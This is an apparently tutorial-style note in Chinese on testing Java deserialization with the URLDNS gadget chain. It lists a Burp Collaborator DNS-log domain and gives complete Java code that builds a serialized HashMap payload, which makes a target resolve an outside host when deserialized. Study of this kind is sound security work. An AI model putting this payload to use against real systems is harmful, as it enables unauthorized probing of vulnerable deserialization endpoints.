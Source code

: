 ## URLDNS测试

burp 的 dnslog平台

```
uuskbdhokjpvvmulydjo9unt5kbbz0.burpcollaborator.net
```

生成urldns链：

```java
package com.zf1yolo;

import java.io.File;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class Urldns {
    public static void main(String[] args) throws Exception {
                /*
        利用链:
            ObjectInputStream#readObject() -> HashMap.readObject(ObjectInputStream in)
            HashMap -> hash()
            URL -> hashCode()
            URLStreamHandler -> hashCode()
            URLStreamHandler -> getHostAddress()
            URL -> getHostAddress()
            InetAddress -> getByName()
         */
        HashMap hashMap = new HashMap();
        URL url = new URL("http://y98oqhwszn4zaq9pdhysoy2xkoqge5.burpcollaborator.net");

        /*
        URL：
            private int hashCode = -1;

            public synchronized int hashCode() {
                if (hashCode != -1)
                    return hashCode;
                hashCode = handler.hashCode(this);
                return hashCode;
            }

        HashMap.put()和本利用链都会执行至URL.hashCode()
        */
        Field hashCodeField = url.getClass().getDeclaredField("hashCode");
        hashCodeField.setAccessible(true);

        // 阻止创建payload时触发请求
        hashCodeField.set(url, 0);
        hashMap.put(url, null);
        // 使利用链执行时能够触发请求
        hashCodeField.set(url, -1);

        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(new File("ser.bin")));
        oos.writeObject(hashMap);
        oos.close();
    }
}
```
